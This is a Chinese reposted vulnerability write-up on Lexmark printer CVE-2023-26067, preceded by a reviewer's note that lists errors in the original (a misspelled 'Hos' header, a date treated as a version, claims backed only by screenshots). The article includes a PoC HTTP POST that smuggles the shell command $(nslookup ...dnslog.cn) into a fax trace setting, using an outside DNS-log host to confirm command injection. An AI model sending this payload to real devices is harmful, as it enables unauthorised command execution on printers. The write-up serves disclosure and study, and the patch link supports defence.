





# Lexmark 远程代码执行漏洞 (CVE-2023-26067)

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Lexmark，型号未列
- 本文讨论：CVE-2023-26067内部组件提权与faxtrace命令样例映射待核
- 版本、权限与配置前提：简介要求已攻陷设备，PoC呈现无认证HTTP；日期当版本
- 资料类型：打印机命令执行转载；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 标题远程执行与CVE简介本地已攻陷后提权混杂，必须核实际链前置
- 把2023-02-19当固件版本；Host写Hos且头体无空行，缺Content-Type
- DNS证据仅截图，无法确认与该CVE相符
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据
- 回连样例可能向外部地址发送网络请求或建立会话；应使用自己的隔离回连服务，DNS/LDAP 到达只能证明相应交互，不能单独证明 RCE

### 待核与来源

- fax接口是否需要前置SSRF或已攻陷状态、型号补丁待官方核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/FflXiXDmg7hX5bBrywRgJA)

  

网安引领时代，弥天点亮未来   

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**

Lexmark 是美国的一系列打印机。Lexmark 设备的一个受信任的内部组件存在输入验证漏洞。已经破坏了设备的攻击者可以利用此漏洞来升级权限。

Certain Lexmark devices 2023-02-19 版本及之前版本存在安全漏洞，该漏洞源于 Lexmark 设备错误处理输入验证。


  

**0x02 影响版本**  

Certain Lexmark devices 2023-02-19 版本及之前版本存在安全漏洞




  

**0x03 漏洞复现**  

  

1. 访问漏洞环境



2. 对漏洞进行复现

 **POC （POST）**

```http
POST /cgi-bin/fax_change_faxtrace_settings HTTP/1.1
Hos: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Content-Length: 72
Accept-Encoding: gzip, deflate
FT_Custom_lbtrace=$(nslookup h42ojm.dnslog.cn)

```

漏洞复现

        POST 请求， ndslog 测试存在漏洞

生成测试域名



      nslookup 解析，漏洞存在。



3.nuclei 测试（漏洞存在）




  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
https://publications.lexmark.com/publications/security-alerts/CVE-2023-26067.pdf

```

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
